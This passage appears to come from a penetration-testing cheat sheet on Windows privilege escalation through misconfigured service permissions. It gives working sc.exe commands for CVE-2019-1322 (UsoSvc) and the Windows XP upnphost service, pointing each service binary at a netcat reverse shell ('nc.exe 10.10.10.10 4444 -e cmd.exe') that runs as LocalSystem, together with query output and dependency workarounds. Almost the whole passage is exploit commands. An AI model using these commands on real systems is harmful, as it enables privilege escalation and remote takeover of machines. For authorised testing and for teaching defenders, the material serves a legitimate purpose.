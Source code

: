 ### Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account

```powershell
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```

### Example with Windows XP SP1 - upnphost

```powershell
# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

If it fails because of a missing dependency, try the following commands.

```powershell
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```

Using [`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe) from Sysinternals or [accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)
